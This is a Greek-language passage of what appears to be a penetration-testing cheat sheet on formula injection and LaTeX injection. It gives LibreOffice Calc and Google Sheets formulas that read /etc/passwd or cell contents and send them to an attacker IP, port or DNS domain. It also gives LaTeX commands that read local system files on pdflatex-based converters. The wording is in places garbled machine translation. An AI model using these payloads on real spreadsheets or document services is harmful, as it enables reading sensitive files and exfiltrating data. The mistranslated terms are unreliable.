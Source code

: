 Το LibreOffice Calc μπορεί να χρησιμοποιηθεί για την ανάγνωση τοπικών αρχείων και την εξυφάνταξη δεδομένων. Εδώ είναι μερικές μέθοδοι:

* Ανάγνωση της πρώτης γραμμής από το τοπικό αρχείο `/etc/passwd`: `='file:///etc/passwd'#$passwd.A1`
* Εξυφάνταξη των δεδομένων προς έναν διακεκριμένο διακομιστή: `=WEBSERVICE(CONCATENATE("http://<διεύθυνση IP του επιτιθέμενου>:8080/",('file:///etc/passwd'#$passwd.A1)))`
* Εξυφάνταξη περισσότερων από μία γραμμή: `=WEBSERVICE(CONCATENATE("http://<διεύθυνση IP του επιτιθέμενου>:8080/",('file:///etc/passwd'#$passwd.A1)&CHAR(36)&('file:///etc/passwd'#$passwd.A2)))`
* Εξυφάνταξη DNS (αποστολή δεδομένων ανάγνωσης ως ερωτήματα DNS σε έναν διακεκριμένο διακομιστή DNS): `=WEBSERVICE(CONCATENATE((SUBSTITUTE(MID((ENCODEURL('file:///etc/passwd'#$passwd.A19)),1,41),"%","-")),".<domain του επιτιθέμενου>"))`

### Google Sheets για Εξυφάνταξη Δεδομένων Έξω από τη Ζώνη (OOB)

Το Google Sheets προσφέρει λειτουργίες που μπορούν να εκμεταλλευτούν για την εξυφάνταξη δεδομένων έξω από τη ζώνη:

* **CONCATENATE**: Συνενώνει αλφαριθμητικά - `=CONCATENATE(A2:E2)`
* **IMPORTXML**: Εισάγει δεδομένα από δομημένους τύπους δεδομένων - `=IMPORTXML(CONCAT("http://<διεύθυνση IP του επιτιθέμενου:Θύρα>/123.txt?v=", CONCATENATE(A2:E2)), "//a/a10")`
* **IMPORTFEED**: Εισάγει ροές RSS ή ATOM - `=IMPORTFEED(CONCAT("http://<διεύθυνση IP του επιτιθέμενου:Θύρα>//123.txt?v=", CONCATENATE(A2:E2)))`
* **IMPORTHTML**: Εισάγει δεδομένα από πίνακες HTML ή λίστες - `=IMPORTHTML (CONCAT("http://<διεύθυνση IP του επιτιθέμενου:Θύρα>/123.txt?v=", CONCATENATE(A2:E2)),"table",1)`
* **IMPORTRANGE**: Εισάγει ένα εύρος κελιών από άλλο φύλλο εργασίας - `=IMPORTRANGE("https://docs.google.com/spreadsheets/d/[Αναγνωριστικό_Φύλλου]", "sheet1!A2:E2")`
* **IMAGE**: Εισάγει μια εικόνα σε ένα κελί - `=IMAGE("https://<διεύθυνση IP του επιτιθέμενου:Θύρα>/images/srpr/logo3w.png")`

## Εισαγωγή LaTeX

Συνήθως οι διακομιστές που θα βρείτε στο διαδίκτυο που **μετατρέπουν κώδικα LaTeX σε PDF** χρησιμοποιούν το **`pdflatex`**.\
Αυτό το πρόγραμμα χρησιμοποιεί 3 κύρια χαρακτηριστικά για την (απ)επιτροπή εκτέλεσης εντολών:

* **`--no-shell-escape`**: **Απενεργοποιεί** την κατασκευή `\write18{command}`, ακόμα και αν είναι ενεργοποιημένη στο αρχείο texmf.cnf.
* **`--shell-restricted`**: Ίδιο με το `--shell-escape`, αλλά **περιορίζεται** σε ένα σύνολο 'ασφαλών' **προκαθορισμένων** \*\*εντολών (\*\*Στο Ubuntu 16.04 η λίστα βρίσκεται στο `/usr/share/texmf/web2c/texmf.cnf`).
* **`--shell-escape`**: **Ενεργοποιεί** την κατασκευή `\write18{command}`. Η εντολή μπορεί να είναι οποιαδήποτε εντολή κελών. Αυτή η κατασκευή απαγορεύεται κανονικά για λόγους ασφαλείας.

Ωστόσο, υπάρχουν και άλλοι τρόποι εκτέλεσης εντολών, οπότε για να αποφευχθεί η RCE είναι πολύ σημαντικό να χρησιμοποιηθεί το `--shell-restricted`.

### Ανάγνωση αρχείου <a href="#read-file" id="read-file"></a>

Μπορεί να χρειαστεί να προσαρμόσετε την ενσωμάτωση με περιτύλιγματα όπως \[ ή $.
```bash
\input{/etc/passwd}
\include{password} # load .tex file
\lstinputlisting{/usr/share/texmf/web2c/texmf.cnf}
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```
#### Διαβάστε αρχείο με μία γραμμή
```bash
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```